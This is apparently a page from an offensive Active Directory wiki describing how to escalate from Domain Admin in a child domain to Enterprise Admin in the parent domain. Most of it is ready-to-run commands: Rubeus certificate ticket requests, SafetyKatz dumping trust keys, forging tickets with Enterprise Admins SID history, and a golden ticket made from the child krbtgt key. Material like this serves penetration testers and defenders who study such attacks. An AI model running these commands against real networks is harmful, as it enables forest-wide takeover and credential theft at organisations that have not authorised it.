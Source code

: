 # DA to EA

## Request other certificate

When you get DA to a domain via [#pkinit-authentication](../misc/ad-authentication.md#pkinit-authentication "mention"), for instance with [esc1.md](../adcs/exploitation/esc1.md "mention"), you can get Enterprise Admin of a parent domain via:

```powershell
> Rubeus asktgt /user:parentdomain.local\Administrator /dc:dc.parentdomain.local /certificate:<cert> /password:<pass> /nowrap /ptt
```

## Domain trust key

Get the trust key from the child domain to the parent domain with SafetyKatz on a DC:

```powershell
> SafetyKatz.exe "lsadump::evasive-trust /patch"
[In] us.techcorp.local -> techcorp.local
* hash
* aes256_hmac XXX
* aes128_hmac XXX
* rc4_hmac_nt XXX

[Out] techcorp.local -> us.techcorp.local
* hash
* aes256_hmac XXX
* aes128_hmac XXX
* rc4_hmac_nt XXX

...
```

It is also possible to retrieve the trust key through [dcsync.md](dcsync.md "mention") (cf. [#with-a-tgt](dcsync.md#with-a-tgt "mention")).

The trust key is of the form of an NT hash.

Next, forge a ticket whose SID History is of `Enterprise Admins` group. The SPN is for krbtgt:

```powershell
> Rubeus.exe evasive-silver /user:Administrator /ldap /service:krbtgt/US.TECHCORP.LOCAL /rc4:<trust key> /sids:<enterprise admins SID> /nowrap
```

Then, ask another service ticket for service HTTP using the previous ticket:

```powershell
> Rubeus.exe asktgs /service:http/techcorp-dc.techcorp.local /dc:techcorp-dc.techcorp.local /ptt /ticket:<ticket>
```

We now have a service ticket to the parent DC with HTTP and Administrator privileges, we can for instance use WinRM to access the DC.

It is possible to specify another service name such as CIFS to access the server via SMB.

## Through krbtgt

As we compromised the krbtgt account of the child domain, it is possible to create a golden ticket that will be valid on the parent domain :

```powershell
> Rubeus.exe evasive-golden /user:Administrator /id:500 /domain:us.techcorp.local /sid:<child domain SID> /groups:513 /sids:<enterprise admin SID> /aes256:<krbtgt key> /ptt
```
